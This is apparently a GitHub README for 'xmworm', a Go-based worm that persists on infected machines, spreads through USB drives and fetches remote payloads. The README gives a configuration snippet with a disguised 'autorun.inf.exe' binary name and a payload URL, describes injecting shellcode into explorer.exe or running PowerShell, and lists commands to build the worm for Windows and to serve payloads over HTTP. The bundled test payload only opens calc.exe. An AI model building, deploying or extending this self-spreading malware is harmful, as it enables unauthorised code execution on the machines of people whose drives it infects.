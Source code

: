 # xmworm
A persistent Go based USB spreading worm, with remote payload fetching ability


# setup


## Configure

```sh
$ vim main.go
```

```golang
// main.go

func main(){
	
	worm := &Worm{
		binaryName: "autorun.inf.exe", 
		maxScanInterval: 5,
		//payloadURL: "http://localhost:8005/dropper.ps1",

		// https://www.exploit-db.com/shellcodes/49819
		// `payload.bin` is in `payload/payload.bin` sub-directory,
		// it is raw-binary shellcode that pops calc.exe
		payloadUrl: "http://localhost:8005/payload.bin",
		payloadType: "shellcode",
	}
```

Set the payload url, and payload type you want in the worm's config structure.

- there are currently two supported payload types: `powershell`, and `shellcode`
- `powershell` is simple powershell script
- `shellcode` is raw binary shellcode, which will be loaded in explorer.exe on target system
	- explorer.exe is opened first, then shellcode loaded in it.
	- `payload/payload.bin` is a test payload that pops calc.exe, ref: https://www.exploit-db.com/shellcodes/49819

## Build

```sh
git clone https://github.com/r0psteev/xmworm.git

cd ./xmworm

GOOS=windows GOARCH=amd64 go build .
```

## Start webserver on embedded test payloads

```sh

$ cd ./payload
$ python3 -m http.server 8005
```